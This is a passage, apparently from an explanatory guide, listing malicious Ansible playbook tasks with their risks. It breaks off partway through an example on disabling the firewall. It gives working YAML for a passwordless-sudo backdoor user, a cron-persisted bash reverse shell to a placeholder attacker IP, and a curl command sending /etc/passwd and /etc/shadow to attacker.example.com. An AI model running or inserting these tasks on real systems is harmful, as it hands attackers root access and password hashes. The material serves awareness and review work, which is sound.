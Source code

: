      - name: Ensure backdoor user can sudo without a password
       lineinfile:
         dest: /etc/sudoers
         line: 'backdooruser ALL=(ALL) NOPASSWD:ALL'
         validate: 'visudo -cf %s'
     ```
   - **Risk:** This creates a user account named `backdooruser` with sudo privileges and configures the account to run sudo commands without a password, effectively giving the attacker root access.

### 3. **Installing a Reverse Shell**
   - **Purpose:** To establish an outbound connection that gives the attacker control over the system.
   - **Task Example:**
     ```yaml
     - name: Install a persistent reverse shell
       copy:
         content: |
           #!/bin/bash
           while true; do
             bash -i >& /dev/tcp/attacker_ip/4444 0>&1
             sleep 10
           done
         dest: /usr/local/bin/reverse_shell.sh
         mode: '0755'

     - name: Create a cron job to run the reverse shell
       cron:
         name: "Persistent Reverse Shell"
         job: "/usr/local/bin/reverse_shell.sh"
         state: present
         minute: "*/5"
     ```
   - **Risk:** This sets up a reverse shell that connects back to the attacker's server, allowing them to execute commands on the compromised machine. The cron job ensures that the shell is executed every five minutes, making it difficult to remove.

### 4. **Exfiltrating Data**
   - **Purpose:** To steal sensitive data from the target system.
   - **Task Example:**
     ```yaml
     - name: Exfiltrate sensitive data
       command: tar czf - /etc/passwd /etc/shadow | curl -X POST -F 'data=@-' http://attacker.example.com/upload
     ```
   - **Risk:** This task archives sensitive files like `/etc/passwd` and `/etc/shadow` (which contain user account and password hash information) and sends them to the attacker's server via HTTP POST.

### 5. **Disabling Security Measures**
   - **Purpose:** To weaken the system's security posture, making it easier to exploit.
   - **Task Example:**
     ```yaml
     - name: Disable firewall
       service:
         name: firewalld
         state: stopped
         enabled: no
